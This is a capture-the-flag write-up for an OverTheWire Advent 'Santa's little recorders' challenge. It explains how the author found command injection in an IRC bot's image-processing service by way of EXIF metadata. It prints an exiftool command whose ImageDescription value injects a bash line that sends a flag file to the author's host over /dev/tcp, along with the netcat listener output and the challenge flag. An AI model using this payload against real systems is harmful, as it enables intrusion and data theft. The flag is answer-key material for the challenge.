

# Santa's little recorders - Net/pwn (200)

This year for secret Santa, Santa's elves are making a photo-album for Ms. Claus, featuring some of the millions of selfies her husband makes on the north pole. To help with the effort, they have created some automated processing to sort through the images.

Service: #santas_little_recorders on irc.overthewire.org

## Initial review

The description for this problem didn't give much to go on aside from the fact that this challenge would involve some sort of image processing. I headed over to the IRC channel and after a couple technical issues I started messaging one of the `SantaRecorder-###` bots. Any message will prompt you to send a message with a URL:

```
Hi there. Try '!record <url>' in private message
```

After a lot of trial and error I found that the bot wanted an image with special metadata tags. After searching around a bit I landed on using the Linux [exiftool](https://en.wikipedia.org/wiki/ExifTool) for inserting tags into JPG images. A lot of trial and error showed that the server was parsing out latitude, longitude, altitude, and finally a description field. A short snippet of the trial and error with various error messages is below.



Finally, after getting all of the other metadata into the image, I got to the `ImageDescription` which had the heart of the problem. This field seemingly needed the string "Santa" in it, but did allow some special characters. Notably, it allowed `;` and `'` which meant that there might be a way to inject shell commands. A lot of trial and error later I finally landed on a rather simple command injection using the [bash redirection trick described here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Setting up my own netcat listener this let me receive the flag after sending a crafted message. The final two commands are below:

```
$ exiftool -XMP:GPSLatitude=90.0 -XMP:GPSLongitude=0.0 -GPSLatitude=90.0 -GPSLongitude=0.0 -GPSLongitudeRef="East" -GPSLatitudeRef="North" -GPSAltitude=0.0 -GPSAltitudeRef="above" -ImageDescription="Santa ; /bin/bash -c 'cat /opt/flag > /dev/tcp/myipaddress/8081'" elf.jpg
    1 image files updated
$ nc -nvlp 8081
listening on [any] 8081 ...
connect .. from (UNKNOWN) .. 52496
AOTW{A_mighty_duckface_on_this_one}
$ 
```

